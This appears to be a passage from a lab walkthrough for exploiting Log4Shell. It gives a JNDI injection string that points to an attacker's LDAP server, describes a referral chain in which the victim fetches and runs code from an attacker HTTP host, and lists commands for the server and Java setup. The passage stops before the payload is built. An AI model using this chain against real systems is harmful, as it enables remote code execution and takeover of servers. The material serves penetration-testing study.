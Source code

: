<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption><p>Connection received</p></figcaption></figure>

## Exploitation

Target verified as vulnerable as connection caught by netcat listener.&#x20;

Stage **LDAP Referral Server** to redirect initial request from victim to attacker controlled location. Controlled location will host secondary payload that will ultimately run code on target.

1. **${jndi:ldap://attackerserver:1389/Resource}** -> reaches out to LDAP Referral Server.
2. LDAP Referral Server springboards request to secondary **http://attackerserver/resource**.
3. Victim retrieves and executes code present in **http://attackerserver/resource**.

Need to create HTTP server on attack system:

```
python3 -m http.server
```

```
php -S 0.0.0.0:8000
```

Use [**marshalsec**](https://github.com/mbechler/marshalsec) utility as LDAP Referral Server. Requires Java. README suggests using Java 8.&#x20;

Download and install Java 1.8.8\_181 if required:

{% embed url="http://mirrors.rootpei.com/jdk/" %}
Linux Java versions mirror
{% endembed %}

Select **jdk-8u181-linux-x64.tar.gz** package and download to attack system.&#x20;

Configure system to use Java version by default:

```
sudo mkdir /usr/lib/jvm 
```

```
cd /usr/lib/jvm
```

```
sudo tar xzvf ~/Downloads/jdk-8u181-linux-x64.tar.gz
```

```
sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_181/bin/java" 1
```

```
sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_181/bin/javac" 1
```
